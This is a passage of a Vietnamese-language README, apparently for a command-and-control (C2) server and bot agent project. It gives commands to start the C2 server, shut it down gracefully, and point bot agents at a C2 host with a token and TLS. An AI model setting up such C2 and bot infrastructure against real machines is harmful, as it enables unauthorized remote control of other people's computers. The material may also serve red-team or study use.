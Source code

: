 ## 🚀 Chạy hệ thống

### 1. Chạy C2 Server
```bash
# Sử dụng config file (khuyến nghị)
python3 c2_server.py

# Hoặc chỉ định config file khác
python3 c2_server.py --config my_config.json

# Override một số thông số từ command line
python3 c2_server.py --host 192.168.1.100 --bot-port 4444 --tls-enabled
```

### 🔄 Graceful Shutdown
Hệ thống hỗ trợ graceful shutdown với signal handling:

```bash
# Shutdown bằng Ctrl+C
python3 c2_server.py
# Nhấn Ctrl+C để shutdown gracefully

# Shutdown bằng signal
kill -TERM <pid>  # Linux/macOS
taskkill /PID <pid> /T  # Windows

# Test graceful shutdown
python3 test_graceful_shutdown.py

# Test connection limits
python3 test_connection_limits.py
```

**Tính năng Graceful Shutdown:**
- ✅ **Signal handling**: SIGINT, SIGTERM, SIGBREAK
- ✅ **Resource cleanup**: Đóng tất cả connections và servers
- ✅ **Bot disconnection**: Thông báo và đóng bot connections
- ✅ **Task cancellation**: Cancel tất cả async tasks
- ✅ **Logging**: Log quá trình shutdown

### 2. Chạy Bot Agent
```bash
# Bot cơ bản
python3 bot_agent.py --c2-host <IP_C2> --c2-port 4443 --token <BOT_TOKEN>

# Bot với TLS
python3 bot_agent.py --c2-host <IP_C2> --c2-port 4443 --token <BOT_TOKEN> --tls

# Bot với config file
python3 bot_agent.py --c2-host <IP_C2> --c2-port 4443 --token <BOT_TOKEN> --config bot_config.json
```
